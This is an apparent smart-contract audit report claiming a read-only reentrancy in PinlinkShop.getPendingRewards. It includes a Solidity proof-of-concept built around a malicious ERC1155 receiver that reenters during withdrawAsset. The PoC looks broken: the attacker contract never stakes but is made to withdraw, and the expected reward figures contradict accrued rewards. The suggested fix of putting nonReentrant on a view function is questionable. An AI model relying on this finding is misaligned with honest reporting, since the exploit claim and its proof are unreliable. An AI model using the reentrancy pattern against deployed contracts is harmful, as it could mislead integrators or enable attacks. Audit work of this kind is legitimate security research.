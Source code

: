 Keen Iris Lizard

Medium

# Read-Only Reentrancy in getPendingRewards

### Summary

The PinlinkShop.getPendingRewards view function can return stale reward values during a reentrant call (e.g., via withdrawAsset), misleading external protocols or users relying on it. This occurs because StreamHandler.getPendingRewards reflects the current state, not the final state after a transaction.

### Root Cause

In StreamHandler.getPendingRewards:

```solidity
function getPendingRewards(RewardsStream storage self, address account) internal view returns (uint256) {
    uint256 globalPerStaked = self.globalRewardsPerStaked();
    return self.pendingRewards[account] + self._pendingRewardsSinceLastUpdate(globalPerStaked, account);
}
```
Accessed via PinlinkShop.getPendingRewards, it uses stakedBalances and globalRewardsPerStaked without accounting for in-progress state changes.

### Internal Pre-conditions

- Attacker controls a contract with staked fractions and pending rewards.
- A state-changing operation (e.g., withdrawAsset) is in progress.

### External Pre-conditions

- Attacker triggers reentrancy via onERC1155Received and calls getPendingRewards

### Attack Path

- Attacker stakes 100 fractions (tokenId=1).
- OPERATOR deposits 100 USDC rewards, fully dripped.
- Attacker calls withdrawAsset for 50 fractions.
- During safeTransferFrom, onERC1155Received reenters getPendingRewards, returning 100 USDC (based on 100 fractions).
- withdrawAsset completes, reducing the balance to 50 fractions, but an external protocol acts on the stale 100 USDC value.

### Impact

- External contracts or users misjudge reward amounts, potentially leading to over-allocations or incorrect decisions.
- No direct fund loss in PinlinkShop, but impacts downstream reliability.

### PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.27;

import {Test} from "forge-std/Test.sol";
import {PinlinkShop} from "../src/marketplaces/pinlinkShop.sol";
import {FractionalAssets} from "../src/fractional/FractionalAssets.sol";
import {CentralizedOracle} from "../src/oracles/CentralizedOracle.sol";
import {IERC1155Receiver} from "openzeppelin-contracts/contracts/token/ERC1155/IERC1155Receiver.sol";

contract MaliciousReceiverReadOnly is IERC1155Receiver {
    PinlinkShop shop;
    address fractionalAssets;
    uint256 tokenId;
    uint256 public staleRewards;

    constructor(address _shop, address _fractionalAssets, uint256 _tokenId) {
        shop = PinlinkShop(_shop);
        fractionalAssets = _fractionalAssets;
        tokenId = _tokenId;
    }

    function onERC1155Received(address, address, uint256, uint256, bytes calldata) external override returns (bytes4) {
        staleRewards = shop.getPendingRewards(fractionalAssets, tokenId, address(this));
        return this.onERC1155Received.selector;
    }

    function onERC1155BatchReceived(address, address, uint256[] calldata, uint256[] calldata, bytes calldata)
        external
        override
        returns (bytes4)
    {
        return this.onERC1155BatchReceived.selector;
    }
}

contract PinlinkReadOnlyReentrancyTest is Test {
    PinlinkShop shop;
    FractionalAssets assets;
    address pinToken = address(0x1);
    address usdcToken = address(0x2);
    address owner = address(this);
    address attacker;

    function setUp() public {
        CentralizedOracle oracle = new CentralizedOracle(pinToken, 1e18);
        assets = new FractionalAssets("https://example.com/");
        shop = new PinlinkShop(pinToken, address(oracle), usdcToken);

        assets.grantRole(assets.MINTER_ROLE(), address(shop));
        shop.grantRole(shop.DEFAULT_ADMIN_ROLE(), owner);
        shop.grantRole(shop.OPERATOR_ROLE(), owner);

        vm.startPrank(owner);
        assets.mint(1, address(this), 100);
        shop.enableAsset(address(assets), 1, address(this));
        deal(usdcToken, address(shop), 100e6);
        shop.depositRewards(address(assets), 1, 100e6, 1 days);
        vm.warp(block.timestamp + 2 days);
        vm.stopPrank();

        attacker = address(new MaliciousReceiverReadOnly(address(shop), address(assets), 1));
        vm.prank(address(this));
        assets.safeTransferFrom(address(this), address(shop), 1, 100, "");
    }

    function testReadOnlyReentrancy() public {
        uint256 preWithdrawRewards = shop.getPendingRewards(address(assets), 1, attacker);
        vm.prank(attacker);
        shop.withdrawAsset(address(assets), 1, 50, attacker);

        MaliciousReceiverReadOnly malicious = MaliciousReceiverReadOnly(attacker);
        uint256 staleRewards = malicious.staleRewards();
        uint256 postWithdrawRewards = shop.getPendingRewards(address(assets), 1, attacker);

        assertEq(preWithdrawRewards, 100e6); // Initial: 100 USDC
        assertEq(staleRewards, 100e6); // Stale during reentrancy
        assertEq(postWithdrawRewards, 50e6); // Final: 50 USDC
    }
}
```

### Mitigation

- Apply nonReentrant to getPendingRewards to prevent reentrant calls.
- Document the view function’s potential staleness for external integrators.